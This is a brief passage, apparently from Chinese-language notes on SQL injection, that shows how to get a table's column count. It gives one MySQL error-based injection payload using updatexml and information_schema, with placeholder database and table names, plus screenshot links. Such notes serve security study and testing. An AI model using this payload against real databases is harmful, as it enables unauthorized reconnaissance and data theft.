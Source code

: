 ![image-20250222161950802](static/image/image-20250222161950802.png)

#### 获取字段数量

```mysql
updatexml(1,concat(0x7e,(SELECT(COUNT(column_name))FROM(information_schema.columns)WHERE(table_schema='数据库名')AND(table_name='表名')),0x7e),1)
```

![image-20250222162218824](static/image/image-20250222162218824.png)
